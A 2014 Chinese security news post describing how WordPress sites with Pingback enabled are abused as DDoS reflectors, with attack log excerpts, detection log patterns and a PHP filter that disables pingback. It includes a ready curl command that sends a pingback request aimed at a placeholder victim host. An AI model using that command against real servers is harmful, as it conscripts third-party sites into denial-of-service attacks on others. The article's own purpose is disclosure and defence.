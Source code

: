# 超过 16W 的 WordPress 网站被用来做 DDoS 攻击

2014/03/13 10:21 | [News](http://drops.wooyun.org/author/news "由 News 发布") | [业界资讯](http://drops.wooyun.org/category/news "查看 业界资讯 中的全部文章") | 占个座先 | 捐赠作者

![enter image description here](img/img1_u29_png.jpg)

任何开启了 Pingback（默认就开启）的 WordPress 的站点可以被用来做 DDOS 攻击其它服务器。

看如下日志：

```
74.86.132.186 - - [09/Mar/2014:11:05:27 -0400] "GET /?4137049=6431829 HTTP/1.0" 403 0 "-" "WordPress/3.8; http://www.mtbgearreview.com"
121.127.254.2 - - [09/Mar/2014:11:05:27 -0400] "GET /?4758117=5073922 HTTP/1.0" 403 0 "-" "WordPress/3.4.2; http://www.kschunvmo.com" 
217.160.253.21 - - [09/Mar/2014:11:05:27 -0400] "GET /?7190851=6824134 HTTP/1.0" 403 0 "-" "WordPress/3.8.1; http://www.intoxzone.fr" 
193.197.34.216 - - [09/Mar/2014:11:05:27 -0400] "GET /?3162504=9747583 HTTP/1.0" 403 0 "-" "WordPress/2.9.2; http://www.verwaltungmodern.de" 
..

```

可以发现每次请求还增加了随机数`/?3162504=9747583`以此来绕过缓存。

测试这种攻击方式只需要一个 curl 命令就可以了：

```
$ curl -D -  "www.anywordpresssite.com/xmlrpc.php" -d '<methodCall><methodName>pingback.ping</methodName><params><param><value><string>http://victim.com</string></value></param><param><value><string>www.anywordpresssite.com/postchosen</string></value></param></params></methodCall>'

```

想要看你自己的网站是否被用来做了攻击可以查看日志当中是否包含类似如下的内容：

```
93.174.93.72 - - [09/Mar/2014:20:11:34 -0400] "POST /xmlrpc.php HTTP/1.0" 403 4034 "-" "-" "POSTREQUEST:<?xml version=\x221.0\x22 encoding=\x22iso-8859-1\x22?>\x0A<methodCall>\x0A<methodName>pingback.ping</methodName>\x0A<params>\x0A <param>\x0A  <value>\x0A   <string>http://fastbet99.com/?1698491=8940641</string>\x0A  </value>\x0A </param>\x0A <param>\x0A  <value>\x0A   <string>yoursite.com</string>\x0A  </value>\x0A </param>\x0A</params>\x0A</methodCall>\x0A"

94.102.63.238 – - [09/Mar/2014:23:21:01 -0400] "POST /xmlrpc.php HTTP/1.0" 403 4034 "-" "-" "POSTREQUEST:\x0A\x0Apingback.ping\x0A\x0A \x0A \x0A http://www.guttercleanerlondon.co.uk/?7964015=3863899\x0A \x0A \x0A \x0A \x0A yoursite.com\x0A \x0A \x0A\x0A\x0A"

```

防御此问题的推荐方法需要屏蔽 XML-RPC (pingback) 的功能，WordPress 主题中添加如下代码：

```
add_filter( 'xmlrpc_methods', function( $methods ) {
   unset( $methods['pingback.ping'] );
   return $methods;
} );

```

版权声明：未经授权禁止转载 [News](http://drops.wooyun.org/author/news "由 News 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [编写基于 PHP 扩展库的后门](http://drops.wooyun.org/tips/3003)
*   [NSA 暗中监视中国政府和企业网络（目标华为）](http://drops.wooyun.org/news/1289)
*   [网络安全威胁周报——第 201410 期](http://drops.wooyun.org/news/1034)
*   [APPLE IOS 7.1 修复了超过 20 个代码执行的漏洞](http://drops.wooyun.org/news/1057)
*   [通过伪造乌克兰相关文件进行传播的恶意软件 MiniDuke](http://drops.wooyun.org/news/1373)
*   [GOOGLE 赶在 PWN2OWN 之前修复了四个高危漏洞](http://drops.wooyun.org/news/1069)